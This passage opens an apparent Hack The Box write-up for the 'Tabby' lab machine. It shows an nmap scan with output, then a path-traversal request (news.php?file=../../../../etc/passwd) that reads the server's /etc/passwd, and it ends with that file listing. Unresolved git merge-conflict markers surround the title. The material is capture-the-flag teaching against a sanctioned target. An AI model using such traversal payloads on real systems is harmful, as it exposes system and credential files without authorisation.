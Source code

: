 <<<<<<< HEAD
# Tabby | HackTheBox
=======
# Tabby | Hack The Box
>>>>>>> b87f06e415b6f89b91bb8ca3e722f6606cce131e

### 1. Scan
```bash
kali@kali:~$ sudo nmap -A -p- -T4 10.10.10.194
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-23 21:32 EDT
Nmap scan report for 10-10-10-194.tpgi.com.au (10.10.10.194)
Host is up (0.36s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 587/tcp)
HOP RTT       ADDRESS
1   355.35 ms 10.10.14.1
2   355.90 ms 10-10-10-194.tpgi.com.au (10.10.10.194)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1026.88 seconds
```
The scan shows that the target has SSH, an Apache web server and a Tomcat service active.

### 2. Enumerate HTTP services
Checking out the main web server first on port 80:
http://10.10.10.194/ - single page, nothing out of the ordinary except a link to http://megahosting.htb/news.php?file=statement, which needs to be changed to so directs to the IP address: http://10.10.10.194/news.php?file=statement. Using the Burp repeater we can inject other paths following the "file=" part. This allows for further enumeration, such as /etc/passwd:
```bash
GET /news.php?file=../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```